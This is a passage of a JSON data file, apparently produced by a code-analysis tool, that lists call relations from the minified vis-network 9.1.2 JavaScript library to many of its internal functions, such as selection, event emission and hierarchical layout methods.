"static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getChanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unselect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "commit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "commit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "updateSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getEdgeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getEdgeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isSelected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "deselectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_initBaseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getClickedItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isSelected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_removeFromSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_pointerToPositionObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getAllNodesOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getEdgesOverlappingWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getDistanceToEdge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "deleteNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "deleteEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_addToHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_initBaseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_initBaseEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_addToHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getNodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getEdgeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emitBlurEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emitBlurEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emitHoverEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_hoverConnectedEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "commit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "commit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "generateClickEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelectedNodeIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSelectedEdgeIds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "unselectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "selectObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "commit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "deleteNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "deleteEdges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getItemsOnPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getItemsOnPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "mergeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "mergeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "mergeLow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "mergeHigh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pushRun"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "mergeRuns"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "forceMergeRuns"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fake_use"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abstract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addToOrdering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getTreeSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "addToOrdering"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getTreeSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_resetRNG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "bindEventListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setupHierarchicalLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "layoutNetwork"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setupHierarchicalLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "curveType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_resetRNG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setDirectionStrategy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "adaptAllOptionsForHierarchicalLayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "curveType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_resetRNG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clusterOutliers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_declusterAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "info"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "info"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "solve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_shiftToCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_rng"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_declusterAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "findCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "openCluster"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_determineLevelsByHubsize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_determineLevelsDirected"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_determineLevelsCustomCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "ensureLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getDistribution"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_generateMap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_placeNodesByHierarchy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_condenseHierarchy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_shiftToCenter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getSpaceAroundNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getMaxLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getMaxLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hasSameParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "inSameSubNetwork"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_shiftBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_centerParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_shiftBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getLevels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_centerParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getLevels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getLevels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_centerParent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getCenterPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_indexArrayToNodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setPosition"}, 